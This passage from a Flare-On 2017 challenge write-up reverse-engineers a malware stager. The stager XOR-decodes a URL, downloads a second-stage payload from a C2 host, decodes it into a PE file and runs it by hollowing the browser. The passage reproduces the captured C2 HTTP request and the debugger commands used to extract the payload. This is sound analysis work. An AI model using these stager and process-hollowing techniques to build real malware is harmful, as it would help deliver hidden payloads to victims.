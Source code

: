 `coolprogram.exe` is a Borland compiled PE file that is nothing more than a
stager to download and execute the real payload. Using API Monitor, we can trace
that it attempts to connect to FQDN `maybe.suspicious.to`, checking also that
the domain name doesn't point to the localhost

{{ img(src="/img/flareon-2017/c1de5ea5895e4bb38d54167604de4dff8c75dd14d757d40b1d1992419d085232.png" title="image_alt") }}

The behavior seems consistent with the first TCP stream of the PCAP. However,
the data received seems encoded/encrypted:

```txt
GET /secondstage HTTP/1.1
Accept: */*
Accept-Language: en-us
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)
Host: maybe.suspicious.to
Cache-Control: no-cache

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/2.7.12
date = Tue, 01 Aug 2017 17:04:02 GMT
Content-type: application/octet-stream
Content-Length: 119812
Last-Modified: Tue, 01 Aug 2017 14:46:13 GMT

7.=|...WEz.....:&.uBLA.5.su..m..>j.-....4..|.....Mu%R{.......U..(Fl.;./.....QM.G...O
[...]
```

IDR and IDA helped identify the "real main" function to be at 0x04103DC, which
performs sequentially the following operations:

  1. unxor the URL from memory: the URL is located at 0x04102B4 and xor-ed with
     0x73
  1. perform the HTTP GET request to get the `secondstage`
  1. decode the buffer, recovering a valid PE file, `secondstage.exe`
  1. invoke `secondstage.exe` by [hollowing](https://www.trustwave.com/Resources/SpiderLabs-Blog/Analyzing-Malware-Hollow-Processes/) the default HTTP browser

{{ img(src="/img/flareon-2017/7d5697ef3325169816f81bd29388f6575c6dd51d23d9fcf11c26dc778f29b354.png" title="image_alt") }}

Instead of decoding manually the encoded response from the C2 server, we can be
lazy by recovering `secondstage.exe` breaking at 0x4104C1:

```txt
0:000> bp  0x4104C1; g
Breakpoint 0 hit
[...]
0:000> !dh edx

File Type: EXECUTABLE IMAGE
FILE HEADER VALUES
     14C machine (i386)
       5 number of sections
592F22F3 time date stamp Wed May 31 13:09:23 2017

       0 file pointer to symbol table
       0 number of symbols
      E0 size of optional header
     102 characteristics
            Executable
            32 bit word machine

[...]
0:000> .writemem F:\flareon_2017\12\secondstage.exe edx l1d400
Writing 1d400 bytes...........................................................
```